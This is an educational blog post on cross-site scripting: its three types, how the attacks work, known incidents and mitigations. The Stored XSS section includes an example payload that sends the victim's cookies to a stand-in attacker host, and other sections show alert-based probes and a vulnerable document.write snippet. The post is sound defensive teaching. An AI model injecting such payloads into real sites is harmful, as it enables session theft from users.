 ```yaml
---
title: "Cross-Site Scripting (XSS): OWASP Top 10 & Real-World Exploitation"
date: 2025-07-24
layout: post
tag: [OWASP, Web Security, XSS]
---
```


<div style="max-width: 900px; margin: auto; padding: 20px;">

&nbsp; <!-- Table of Contents -->
&nbsp; <div style="flex: 1; background-color: #f9f9f9; padding: 20px; border-left: 5px solid #007acc; border-radius: 6px;">

&nbsp;   <strong>Table of Contents</strong>

&nbsp;   <ul>
&nbsp;     <li><a href="#what-is-cross-site-scripting-xss">What is Cross-Site Scripting (XSS)?</a></li>
&nbsp;     <li><a href="#types-of-xss">Types of XSS</a>
&nbsp;       <ul>
&nbsp;         <li><a href="#1-stored-xss">1. Stored XSS</a></li>
&nbsp;         <li><a href="#2-reflected-xss">2. Reflected XSS</a></li>
&nbsp;         <li><a href="#3-dom-based-xss">3. DOM-Based XSS</a></li>
&nbsp;       </ul>
&nbsp;     </li>
&nbsp;     <li><a href="#how-xss-attacks-work">How XSS Attacks Work</a></li>
&nbsp;     <li><a href="#real-world-examples">Real-World Examples</a></li>
&nbsp;     <li><a href="#general-mitigation-strategies">General Mitigation Strategies</a></li>
&nbsp;     <li><a href="#conclusion">Conclusion</a></li>
&nbsp;     <li><a href="#references">References</a></li>
&nbsp;   </ul>

&nbsp; </div>
</div>

## What is Cross-Site Scripting (XSS)?

Cross-Site Scripting (XSS) is a client-side code injection vulnerability that allows attackers to inject malicious scripts into web pages viewed by other users. When executed in the victim’s browser, these scripts can steal cookies, session tokens, sensitive data, or perform actions on behalf of the user. XSS is included in the [OWASP Top 10](https://owasp.org/Top10) due to its high frequency and impact.

---

## Types of XSS

### 1. Stored XSS

**Definition:**  
Stored XSS occurs when malicious scripts are permanently saved on the target server (e.g., in a database, comment section, forum post). Any user who accesses the affected page will automatically execute the malicious code.

**How it works:**
1. Attacker submits malicious JavaScript into an input field that gets stored in the application’s database.
2. When another user loads the page, the stored script is included in the page’s HTML and executed by the browser.
3. The script can perform actions like stealing cookies, keylogging, or redirecting the user to malicious sites.

**Example payload:**
```html
<script>fetch('https://evil.com?cookie=' + document.cookie)</script>
```

**Mitigation:**  
Sanitize and validate all user inputs before storing them; use context-aware output encoding; avoid directly inserting untrusted data into HTML; apply a strict Content Security Policy (CSP).

---

### 2. Reflected XSS

**Definition:**  
Reflected XSS occurs when malicious scripts are embedded in a URL or request and reflected back to the browser in the server’s response without proper sanitization.

**How it works:**
1. Attacker crafts a malicious link containing JavaScript code in a parameter.
2. Victim clicks the link and sends a request to the vulnerable application.
3. The application reflects the malicious input in its response, which the browser executes.

**Example payload in URL:**
```
https://example.com/search?q=<script>alert('XSS')</script>
```

**Mitigation:**  
Sanitize and encode all user inputs before reflecting them in responses; use frameworks that automatically escape output; avoid dynamically generating HTML from untrusted data; implement CSP to block inline scripts.

---

### 3. DOM-Based XSS

**Definition:**  
DOM-Based XSS happens when the client-side JavaScript modifies the DOM based on untrusted data without proper sanitization, leading to script execution without any server-side involvement.

**How it works:**
1. Attacker crafts a malicious payload that manipulates the page’s DOM via URL fragments, query parameters, or other sources.
2. The vulnerable JavaScript code inserts this data directly into the page without escaping.
3. The browser executes the malicious code.

**Example vulnerable code:**
```javascript
document.write(location.hash);
```

**Example attack URL:**
```
https://example.com/page#<script>alert('XSS')</script>
```

**Mitigation:**  
Avoid dangerous DOM manipulation methods like `document.write()` and `innerHTML` with untrusted data; use safe DOM APIs like `textContent` or `setAttribute()`; sanitize inputs with trusted libraries (e.g., DOMPurify); implement CSP to prevent execution of injected scripts.

---

## How XSS Attacks Work

1. **Injection:** The attacker injects malicious JavaScript into a vulnerable page.
2. **Execution:** The victim’s browser renders the page and runs the script.
3. **Impact:** The attacker can steal session cookies, perform actions as the user, or spread malware.

---

## Real-World Examples

- **MySpace Samy Worm (2005):** A self-replicating XSS worm that spread to over 1 million profiles in 24 hours.
- **British Airways Breach (2018):** Malicious JavaScript was injected to steal payment details from thousands of customers.

---

## General Mitigation Strategies

- Validate and sanitize all user inputs on both client and server.
- Use context-specific output encoding.
- Enforce a strong Content Security Policy (CSP).
- Avoid unsafe JavaScript functions and DOM manipulation methods.
- Use security features provided by frameworks.
- Regularly test for XSS vulnerabilities using automated scanners and manual penetration testing.

---

## Conclusion

XSS is a critical vulnerability that undermines user trust and can cause severe data breaches. By implementing proper input handling, output encoding, and browser-based security controls, developers can significantly reduce the risk of exploitation.

---

## References

- [OWASP: Cross-Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
- [PortSwigger: XSS Cheat Sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)
- [Google CSP Evaluator](https://csp-evaluator.withgoogle.com/)

</div>

